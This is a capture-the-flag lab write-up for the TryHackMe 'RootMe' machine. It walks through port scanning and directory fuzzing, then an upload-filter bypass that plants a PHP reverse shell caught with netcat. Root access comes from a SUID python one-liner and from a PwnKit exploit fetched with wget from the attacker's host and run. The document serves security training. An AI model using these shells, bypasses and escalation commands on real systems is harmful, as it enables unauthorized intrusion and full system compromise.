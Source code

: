 # THM - RootMe

#### Ip: 10.10.0.217
#### Name: RootMe
#### Rating: Easy

----------------------------------------------------------------------

![rootme.png](../assets/rootme_assets/rootme.png)

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/RootMe]
└─$ sudo nmap -p-  --min-rate 10000 10.10.0.217
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 10:17 CDT
Warning: 10.10.0.217 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.0.217
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.37 seconds
```

Lets enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/RootMe]
└─$ sudo nmap -sC -sV -T4 10.10.0.217 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 10:18 CDT
Nmap scan report for 10.10.0.217
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.38 seconds
```

Navigating to the site we find this webpage:

![page.png](../assets/rootme_assets/page.png)

I'm not seeing any links nor am I finding anything of interest in the page source, so lets kick off some directory fuzzing:

![ferox.png](../assets/rootme_assets/ferox.png)

Cool, the /uploads and /panel directories seem interesting. Navigating to http://10.10.0.217/panel/ we see a file upload feature. Lets try using a PHP reverse shell from PentestMonkey.

### Exploitation

We'll need to go ahead and update the IP adress field, as well as add which port we'll be listening on:

![php.png](../assets/rootme_assets/php.png)

After setting up a NetCat listener on port 443 we can try to upload the script:

![nophp.png](../assets/rootme_assets/nophp.png)

Dang, looks like the site is filtering out the PHP extension. No problem, there are a few potential ways around this.

First lets copy the magic bytes (or file signatures) for a .png file and paste them at the beginning of the PHP shell:

![bytes.png](../assets/rootme_assets/bytes.png)

From here we can save the script and it will hopefully be interpreted as an image. Lets save the script with the magic bytes as not_a_php_shell.png

We can then succesfully upload our disguised shell:

![success.png](../assets/rootme_assets/success.png)

Recalling that we also found an /uploads directory, we can navigate there and trigger our exploit:

![uploads.png](../assets/rootme_assets/uploads.png)

Rats, that failed as well. Another approach we can take is modifying the .php file extension. Perhaps the app is simply blacklisting vanilla PHP, but maybe not something like .phtml. Lets save our script now as shell.phtml and try to upload again.

![success2.png](../assets/rootme_assets/success2.png)

And we can execute the script by clicking on the file in the /uploads directory to get a shell back on our listener:

```text
┌──(ryan㉿kali)-[~/THM/RootMe]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.0.217] 59718
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:41:22 up 29 min,  0 users,  load average: 0.00, 0.00, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
rootme
$ python3 -c 'import pty;pty.spawn("/bin/bash")'


www-data@rootme:/$
```

Nice!, Now we should be able to grab the user.txt flag:

![user_flag.png](../assets/rootme_assets/user_flag.png)

### Privilege Escalation #1

Lets move into the `/tmp` directory and copy over LinPeas to help find the privilege escalation vector.

![transfer.png](../assets/rootme_assets/transfer.png)

Cool, looks like Python has the SUID bit set. This should be a walk in the park from here on out.

![suid.png](../assets/rootme_assets/suid.png)

Heading over to https://gtfobins.github.io/ and searching for Python, we find the exact command we'll need to escalate privileges:

![gtfobins.png](../assets/rootme_assets/gtfobins.png)

Changing directories to `/usr/bin` all we need to do is run:


```text
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
And we'll drop into a root shell, from which we can grab the root.txt flag:

![root_flag.png](../assets/rootme_assets/root_flag.png)

### Privilege Escalation #2

Another vector identified by LinPeas was PwnKit.

![pwnkit.png](../assets/rootme_assets/pwnkit.png)

This is an extremely common finding on older, upatched boxes, and can be a very quick win. Exploiting it takes just a second or two:

```text
www-data@rootme:/tmp$ wget http://10.6.61.45/PwnKit
--2023-07-24 15:59:10--  http://10.6.61.45/PwnKit
Connecting to 10.6.61.45:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: 'PwnKit'

PwnKit              100%[===================>]  17.62K  --.-KB/s    in 0.1s    

2023-07-24 15:59:10 (133 KB/s) - 'PwnKit' saved [18040/18040]

www-data@rootme:/tmp$ chmod +x PwnKit
www-data@rootme:/tmp$ ./PwnKit
root@rootme:/tmp# whoami
root
root@rootme:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
A detailed writeup of the vulnerability can be found here:

https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

Thanks for following along!

-Ryan

---------------------------------------------------------------------



